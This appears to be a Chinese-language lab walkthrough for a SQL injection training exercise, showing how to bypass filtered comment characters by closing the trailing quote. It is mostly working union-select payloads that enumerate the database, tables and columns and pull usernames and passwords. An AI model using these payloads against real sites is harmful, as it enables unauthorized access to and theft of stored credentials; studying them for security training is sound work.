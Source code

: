 

那么如果不用注释符，那就需要根据它可能的语句，思考如何让它成功执行sql语句且绕过注释符：

根据上图，可以看到提交的内容`[input]`最后形成`'[input]'limit 0,1`

如果需要注释符的提前闭合：提交`'[input] --+`形成`''[input] --+'limit 0,1`

那么我们可以使用单引号把后面的单引号提前闭合来不使用注释符，提交`'[input]'`形成：`''[input]''limit 0,1`



```
?id=-1' union select 1,2,3'
```

```
?id=-1' union select 1,database(),3'

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() or '1'= '

#注意可以加 or '1'= '

?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users" or '1'= '

?id=-1'union select 1,(select concat(username,0x7e,password) from users limit 1,1),3'
```



![image-20220115195003908](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less23-有过滤.assets/image-20220115195003908.png)

![image-20220115195052335](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less23-有过滤.assets/image-20220115195052335.png)
